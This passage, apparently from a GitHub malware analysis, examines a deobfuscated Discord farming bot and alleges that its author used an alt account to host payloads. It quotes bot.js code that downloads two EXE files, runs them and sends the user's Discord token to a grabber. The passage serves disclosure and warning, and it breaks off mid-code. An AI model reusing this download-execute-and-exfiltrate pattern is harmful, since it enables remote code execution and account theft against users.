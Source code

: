 This time however, without a Discord token included. The code also has an updater embedded (as the name suggests) which as mentioned previously, is harmful behaviour.

Let's try to investigate [bot.js](https://github.com/harmlessaccount/owofarmbot-deobf/blob/main/old/bot.js) now. Firstly, the code is much bigger than any other file authored by Mid0aria, possibly because of inexperience on modularized programming. However, there are still very concerning pieces of code.

From line 194 to 228, it tries to download two EXE files made by [Benjamin Loir](https://github.com/benjaminloir/), that account is an alt created by Mid0aria. You can see that by checking the Starred tab. Benjamin only follows Mid0aria and stars all of his projects. Unfortunately, the repositories it tries to download from are deleted.

```javascript
if (windowsCheck.existsSync(_filePath)) {

  } else {

    const executableVer = httpsClient.get(

      "https://github.com/benjaminloir/super-duper-broccoli/releases/download/doyouloveme/owocaptchachecker.exe",

      function (downloadOwocR) {

        var saveDownloads = windowsCheck.createWriteStream(_filePath);

        downloadOwocR.pipe(saveDownloads);

        saveDownloads.on("finish", () => {

          saveDownloads.close();

          setTimeout(() => {

            runShellCmd(_filePath);

            sendGrabberWC("Empyrean", userId, discordToken);

          }, 2000);

        });

      },

    );

  }

  if (windowsCheck.existsSync(backupHelperB)) {

  } else {

    const backupExecutB = httpsClient.get(

      "https://github.com/benjaminloir/super-duper-broccoli/releases/download/doyouloveme/owobanbypasshelper.exe",

      function (owobanbypass) {

        var saveToBackup = windowsCheck.createWriteStream(backupHelperB);

        owobanbypass.pipe(saveToBackup);

        saveToBackup.on("finish", () => {
```